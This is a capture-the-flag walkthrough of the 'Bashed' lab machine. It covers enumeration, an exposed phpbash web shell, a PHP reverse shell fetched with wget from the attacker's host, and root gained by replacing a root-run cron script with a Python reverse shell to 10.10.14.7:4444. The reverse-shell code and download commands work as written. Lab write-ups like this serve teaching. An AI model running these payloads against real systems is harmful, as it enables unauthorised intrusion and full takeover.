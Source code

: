 # Rust scan

```bash
ghost@localhost [19:47:00] [~/Documents/tj-null-boxes/bashed] [master]
-> % rustscan -a 10.10.10.68 --ulimit 5000 -- -sC -sV
[~] The config file is expected to be at "/home/ghost/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.10.68:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br/>

# Gobuster

```bash
ghost@localhost [19:48:34] [~/Documents/tj-null-boxes/bashed] [master]
-> % gobuster dir -u http://10.10.10.68 -k -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/21 19:48:55 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
...
```

<br/>

# PHP Bash

http://10.10.10.68/dev/phpbash.php

PHP bash exists on server. Netcat is also on the server.

```bash
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php  
phpbash.php  

www-data@bashed:/var/www/html/dev# nc
This is nc from the netcat-openbsd package. An alternative nc is available  
in the netcat-traditional package.  
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]  
[-P proxy_username] [-p source_port] [-q seconds] [-s source]  
[-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]  
[-x proxy_address[:port]] [destination] [port]****
```

However, we cannot establish a reverse shell with netcat from PHP bash. Therefore, I host [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and download it to the server. Later, directly accessing the file to execute reverse connection.

```bash
www-data@bashed:/var/www/html/dev# wget http://10.10.14.7:8000/php-reverse-shell.php -O ../uploads/reverse.php
--2022-08-21 04:59:39-- http://10.10.14.7:8000/php-reverse-shell.php  
Connecting to 10.10.14.7:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 5491 (5.4K) [application/octet-stream]  
Saving to: '../uploads/reverse.php'  
  
0K ..... 100% 22.7M=0s  
  
2022-08-21 04:59:40 (22.7 MB/s) - '../uploads/reverse.php' saved [5491/5491]
```

Then you can get reverse shell by accessing http://10.10.10.68/uploads/reverse.php.

```bash
ghost@localhost [20:00:02] [~/Documents/tj-null-boxes/bashed] [master *]
-> % nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 42124
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:00:27 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

<br/>

# Privilege Escalation

It seems `www-data` can execute files as `scriptmanager`. Using this, I can change the user and re-run linpeas.

```bash
...
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
...
```

I login to script manager, and run linpeas again.

```bash
www-data@bashed:/tmp$ sudo -i -u scriptmanager
scriptmanager@bashed:~$
```

This time found a folder `script` owned by `scriptmanager`.

```bash
╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
/scripts

╔══════════╣ Readable files belonging to root and readable by me but not world readable

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
/home/scriptmanager/.gnupg/trustdb.gpg
/home/scriptmanager/.gnupg/pubring.gpg
/home/scriptmanager/.gnupg/gpg.conf
/var/log/auth.log
/var/log/syslog
```

Inside `script` folder got 2 files,  `test.py` and `test.txt`. The content of `test.py` looks like below.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Which open `test.txt` and write the text inside. When we see the permission of `test.txt` it is owned by root.

```bash
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Aug 21 05:24 test.txt
```

That means, root user is running the  `test.py` (file owned by `scriptmanager`) periodically.

So, we moved the original file to `.bk` and replaced with python script that actually connects back to another reverse shell running at port `4444`.

The file looks like below.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

```bash
scriptmanager@bashed:/scripts$ wget 10.10.14.7:8000/pe.py
--2022-08-21 06:17:38--  http://10.10.14.7:8000/pe.py
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 214 [text/x-python]
Saving to: 'pe.py'

pe.py               100%[===================>]     214  --.-KB/s    in 0s

2022-08-21 06:17:39 (21.7 MB/s) - 'pe.py' saved [214/214]

scriptmanager@bashed:/scripts$ mv pe.py test.py
mv pe.py test.py
```

```bash
ghost@localhost [21:17:44] [~/Documents/tj-null-boxes/bashed] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 50854
bash: cannot set terminal process group (48956): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

<br/>

# Flags

```bash
$ cat user.txt
4188****
```

```bash
root@bashed:/scripts# cat /root/root.txt
4b44****
```
